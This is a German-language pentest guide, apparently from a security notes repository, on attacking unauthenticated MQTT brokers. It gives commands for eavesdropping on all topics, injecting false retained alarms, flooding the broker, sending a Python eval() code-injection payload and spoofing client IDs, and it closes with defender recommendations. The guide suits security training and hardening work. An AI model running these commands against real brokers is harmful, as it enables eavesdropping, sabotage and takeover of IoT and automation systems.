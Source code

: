 # MQTT

### MQTT-Broker auf Port 1883 – Analyse und Ausnutzung

### 1. Allgemeines

MQTT (Message Queuing Telemetry Transport) ist ein leichtgewichtiges Publish/Subscribe-Protokoll, das häufig in IoT-Umgebungen eingesetzt wird. Ein offener Broker ohne Authentifizierung auf Port 1883 stellt ein potenzielles Sicherheitsrisiko dar, da unautorisierte Akteure ungehindert auf Topics zugreifen, Nachrichten injizieren oder persistente Payloads hinterlassen können.

***

### 2. Analyse

Ein erster Scan kann mit Nmap erfolgen:

```bash
nmap -A -p1883 <IP>
```

Ein offener Port mit Service `mosquitto` zeigt typischerweise die Version des Brokers sowie `$SYS`-Topics an.

Anschließend kann überprüft werden, ob anonyme Verbindungen erlaubt sind:

```bash
mosquitto_sub -h <IP> -p 1883 -t "#" -v
```

Dabei wird das Wildcard-Topic `#` abonniert, um sämtliche verfügbaren Topics und ihre Inhalte zu erfassen.

***

### 3. Testmethoden

**Nachrichten veröffentlichen:**

```bash
mosquitto_pub -h <IP> -p 1883 -t "test/topic" -m "Testnachricht"
```

**Systeminformationen auslesen (falls verfügbar):**

```bash
mosquitto_sub -h <IP> -p 1883 -t "$SYS/#" -v
```

**Retained Messages injizieren:**

```bash
mosquitto_pub -h <IP> -p 1883 -t "alerts/system" -r -m "System offline"
```

**Retained Messages löschen:**

```bash
mosquitto_pub -h <IP> -p 1883 -t "alerts/system" -r -n
```

***

### 4. Potenzielle Angriffsmöglichkeiten

Ein ungesicherter MQTT-Broker (z. B. Mosquitto) ohne Authentifizierung und Zugriffskontrolle bietet eine Vielzahl an Angriffsflächen. Im Folgenden werden die häufigsten und praxisrelevantesten Angriffsmethoden beschrieben.

***

#### 4.1 Unauthentifiziertes Publish/Subscribe

Ein MQTT-Broker, der ohne Zugangskontrolle betrieben wird, erlaubt es, dass sich beliebige Clients verbinden, Topics abonnieren oder Nachrichten veröffentlichen. Das ermöglicht:

* **Lauschangriffe** auf interne Kommunikation
* **Manipulation von Topics**, insbesondere in Automatisierungs- oder IoT-Umgebungen
* **Interaktion mit angebundenen Systemen**, die MQTT als Steuerkanal nutzen

Beispiel:

```bash
mosquitto_sub -h <IP> -p 1883 -t "#" -v
```

Abonnieren aller verfügbaren Topics.

***

#### 4.2 Retained Message Injection

Retained Messages bleiben am Broker gespeichert und werden automatisch an neu verbundene Clients gesendet. Ein Angreifer kann diese Funktion nutzen, um manipulierte oder bösartige Inhalte dauerhaft im System zu verankern.

**Beispiel:**

```bash
mosquitto_pub -h <IP> -p 1883 -t "system/alerts" -r -m "Falscher Alarm: ALLES OK"
```

**Löschen persistenter Nachrichten:**

```bash
mosquitto_pub -h <IP> -p 1883 -t "system/alerts" -r -n
```

Risiken:

* Falschinformationsverbreitung
* Persistenz von Schadcode in IoT-Ökosystemen
* Täuschung von Benutzern und Systemen

***

#### 4.3 Denial of Service (DoS)

MQTT erlaubt schnelles Senden großer Mengen kleiner Nachrichten. Ein Angreifer kann den Broker oder angebundene Clients überlasten:

**Massenpublishing:**

```bash
while true; do
  mosquitto_pub -h <IP> -p 1883 -t "flood" -m "X"
done
```

**Verbindungsflut:**

```bash
for i in {1..1000}; do
  mosquitto_sub -h <IP> -p 1883 -t "x" -i client$i &
done
```

Folgen:

* Ressourcenerschöpfung auf dem Server
* Instabilität oder Ausfall angebundener Dienste
* Verzögerungen oder Nachrichtenverlust

***

#### 4.4 Command Injection über Payload

In einigen Architekturen werden MQTT-Nachrichten direkt in Skripten oder Backend-Systemen weiterverarbeitet. Bei unsachgemäßer Validierung kann dies zur Codeausführung führen (z. B. in Python durch `eval()`):

**Beispielhafte Payload:**

```bash
mosquitto_pub -h <IP> -p 1883 -t "device/cmd" -m "__import__('os').system('id')"
```

Voraussetzung:

* Unsicher implementierte Message-Handler
* Direkte Auswertung von Payloads ohne Input-Filter

Risiko:

* Remote Code Execution (RCE)
* Volle Systemkompromittierung bei Root-Rechten

***

#### 4.5 Informationsbeschaffung über Systemtopics

Systemtopics wie `$SYS/#` liefern interne Informationen über:

* Anzahl aktiver/verbindeter Clients
* Uptime und Speicherauslastung
* Broker-Version

**Beispiel:**

```bash
mosquitto_sub -h <IP> -p 1883 -t "$SYS/#" -v
```

Diese Informationen erleichtern:

* Fingerprinting des Dienstes
* Einschätzung der Serverleistung
* Auswahl geeigneter Exploits (z. B. für alte Mosquitto-Versionen)

***

#### 4.6 Topic-Enumeration & Auslesen sensitiver Daten

Angreifer können durch systematisches Abonnieren und Publishen existierende Topics identifizieren und sensible Daten extrahieren, z. B.:

* Umgebungsdaten (z. B. Sensorwerte, Temperaturen)
* Steuerbefehle an IoT-Geräte
* Authentifizierungs- oder Konfigurationsdaten (bei schlechter Implementierung)

Vorgehen:

```bash
mosquitto_sub -h <IP> -p 1883 -t "#" -v
```

In Verbindung mit gezielter Manipulation kann so die Integrität ganzer Steuer- und Automatisierungsprozesse kompromittiert werden.

***

#### 4.7 Client-Spoofing und Session-Hijacking

Wenn keine Client-ID-Validierung erfolgt, kann ein Angreifer sich mit der gleichen Client-ID wie ein legitimer Nutzer verbinden und diesen "abdrängen", da MQTT standardmäßig keine gleichzeitigen Verbindungen pro Client-ID erlaubt.

**Beispiel:**

```bash
mosquitto_sub -h <IP> -p 1883 -t "#" -i legit_client_id
```

Konsequenzen:

* Übernahme von Steuerverbindungen
* Nachrichtenzwischenfang (Man-in-the-Middle)
* Störung kritischer Prozesse

***

#### 5. Sicherheitsempfehlungen (für Verteidiger)

* Authentifizierung und Autorisierung aktivieren
* Zugriff auf `$SYS/#` einschränken
* Retained Messages kontrollieren und bei Bedarf deaktivieren
* QoS-Regeln und Verbindungsanzahl pro Client limitieren
* TLS-Verschlüsselung aktivieren (Port 8883)
* Logging und Monitoring einsetzen
